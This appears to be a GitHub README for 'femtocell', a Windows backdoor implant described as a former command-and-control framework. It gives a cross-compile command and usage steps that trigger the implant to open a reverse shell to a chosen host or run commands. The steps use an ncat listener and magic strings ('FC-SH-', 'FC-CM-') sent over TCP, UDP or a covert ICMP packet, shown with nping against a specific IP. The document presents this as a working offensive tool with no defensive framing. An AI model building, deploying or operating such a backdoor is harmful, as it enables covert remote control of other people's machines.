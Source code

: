 # femtocell
This was supposed to be a "Modular C2 Framework"
Now it's not.
It's way cooler now though. Trust me.

## Building
`x86_64-w64-mingw32-gcc femtocell.c process.c -lws2_32 -o femtocell.exe`


## Usage
### TCP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`
`> FC-SH-<remoteip>`
`> FC-CM-<command>`

### UDP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`
`> FC-SH-<remoteip>`
`> FC-CM-<command>`

### ICMP
`sudo nping 192.168.183.152 --icmp --data-string "FC-SH-192.168.10.162 " -c 1 --icmp-code 1`

**include a character after the IP address**